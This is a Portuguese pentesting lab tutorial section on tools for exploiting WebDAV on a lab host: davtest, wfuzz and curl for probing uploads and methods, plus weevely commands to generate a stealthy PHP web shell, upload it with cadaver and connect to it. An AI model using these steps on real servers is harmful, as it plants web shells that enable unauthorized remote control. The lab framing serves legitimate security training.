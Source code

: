![hacked](./lab-n-6.png)

#### 6.8 Ferramentas Alternativas para Exploração WebDAV

##### 1. davtest
```bash
# Testa upload de diferentes tipos de arquivos via WebDAV
davtest -url http://192.168.100.11/dav/
```
> O davtest automatiza o teste de upload de vários tipos de arquivos (.php, .asp, .html, etc) e verifica quais são executáveis no servidor.

##### 2. wfuzz
```bash
# Fuzzing de métodos HTTP permitidos
wfuzz -c -z list,PUT-DELETE-MOVE-COPY-PROPFIND -X FUZZ http://192.168.100.11/dav/
```
> Útil para descobrir métodos HTTP habilitados no servidor WebDAV.

##### 3. curl
```bash
# Teste manual de métodos WebDAV
curl -X PROPFIND -H "Depth: 1" http://192.168.100.11/dav/
```
> Ferramenta versátil para testar manualmente diferentes métodos WebDAV.

##### 4. Weevely - Gerador de Shell PHP
```bash
# Gera um shell PHP mais discreto
weevely generate senha123 shell.php
# Upload via WebDAV
cadaver http://192.168.100.11/dav/
dav:/dav/> put shell.php
# Conecta ao shell
weevely http://192.168.100.11/dav/shell.php senha123
```
> Weevely gera shells PHP mais difíceis de detectar e oferece funcionalidades adicionais.
